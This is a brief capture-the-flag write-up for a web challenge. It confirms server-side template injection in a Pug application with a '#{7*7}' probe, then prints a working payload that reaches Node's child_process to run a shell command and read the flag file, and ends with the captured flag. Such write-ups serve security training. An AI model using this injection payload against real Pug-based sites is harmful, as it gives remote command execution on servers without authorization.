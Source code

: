 <img src=".images/greetings.png">

For this challenge, even if there is an XSS vulnerability (on which I wasted a considerable amount of time X_X) there is also a SSTI in Pug. Basically trying `#{7*7}` yields:

<img src=".images/g1.png">

So the SSTI is confirmed. After playing with some payloads I discovered this one:

```pug
#{new Function('return global.process.mainModule.require("child_process").execSync("cat flag.txt").toString()')()}
```

`TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`